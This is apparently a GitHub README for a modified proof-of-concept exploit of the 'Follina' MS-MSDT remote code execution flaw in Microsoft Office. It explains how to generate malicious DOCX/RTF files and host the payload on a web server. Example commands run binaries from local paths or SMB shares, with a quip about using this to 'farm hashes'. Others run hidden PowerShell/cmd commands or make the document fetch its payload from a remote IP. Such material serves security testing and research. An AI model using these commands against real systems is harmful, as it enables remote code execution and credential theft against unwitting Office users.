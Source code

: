 # 'Follina' MS-MSDT n-day Microsoft Office RCE (Modified by Danus)

Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate the `clickme.docx` payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
options:
  -h, --help            show this help message and exit

Required Arguments:
  -t {docx,rtf}, --type {docx,rtf}
                        Choose type of payload (RTF, DOCX)
  -m {binary,command}, --mode {binary,command}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS
                        command

Binary Execution Arguments:
  -b BINARY, --binary BINARY
                        The full path of the binary to run. Can be local or remote from an SMB share

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults
                        to "localhost"
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -P PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

# On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t rtf -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -t docx -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```

## Cool peeps

Thanks to [Kevin Beaumont](https://twitter.com/GossiTheDog) for [his original analysis](https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e) of the issue, [@KevTheHermit](https://twitter.com/KevTheHermit) for sharing their poc, and [John Hammond](https://twitter.com/_JohnHammond) for their further work on analysing payload requirements. Additional thanks to [@mkolsek](https://twitter.com/mkolsek) for the template [supporting Office 2019](https://twitter.com/mkolsek/status/1531217733546823681), and [@theluemmel](https://twitter.com/theluemmel) for sharing their version of the payload with me.
